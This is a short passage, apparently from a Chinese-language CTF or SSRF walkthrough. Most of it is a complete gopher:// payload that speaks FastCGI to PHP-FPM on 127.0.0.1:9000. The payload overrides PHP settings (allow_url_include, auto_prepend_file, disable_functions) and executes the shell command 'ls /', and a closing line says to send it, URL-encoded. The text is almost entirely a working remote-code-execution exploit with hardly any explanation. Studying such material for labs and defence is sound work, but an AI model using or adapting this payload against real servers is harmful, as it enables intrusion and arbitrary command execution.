 ```
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%04%00%3C%3Fphp%20system%28%27ls%20/%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------

```

把payload发送（如果当作url，需要进行url编码）

![image](images/E28930D377BB438A9EB21BBF248AB34Eclipboard.png)
